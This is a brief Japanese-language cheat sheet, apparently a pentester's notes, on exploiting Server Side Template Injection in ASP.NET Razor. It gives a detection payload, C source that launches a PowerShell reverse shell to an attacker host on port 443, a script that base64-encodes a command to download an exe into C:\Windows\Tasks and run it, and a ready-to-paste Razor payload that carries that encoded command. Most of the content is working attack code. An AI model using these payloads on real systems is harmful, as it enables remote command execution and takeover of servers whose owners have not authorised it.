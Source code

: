 # Server Side Template Injection

Razor ASP.NET

## 脆弱性診断

    ``` c#
        //画面に 49 が返ってくればOK
        @{7*7}
        //下の方法でいろんなコマンドが実行できる
        @System.Diagnostics.Process.Start("cmd.exe","コマンド");
    ```

## Exploit

* reverse shell
  * msfvenomでexeファイルを作成
  * 下のcのソースを使ってexeを作成して転送(以外と万能)

        ```c
            #include <windows.h>
            #include <stdio.h>

            int main(){
                system("powershell.exe -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('<kaliのIP>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
                return 0;
            }
        ```

  * アプリケーション上で実行させるコマンドの生成

        ``` powershell
            $command = ' iwr -uri http://<kali ip>/XXX.exe -OutFile C:\Windows\Tasks\XXX.exe; C:\Windows\Tasks\XXX.exe'
            $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
            $encodedCommand = [Convert]::ToBase64String($bytes)
        ```

            作成後　転送　ncで待ち受け

  * 作成したコードを貼り付けて実行

        ```c#
            @System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc
            IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");
        ```
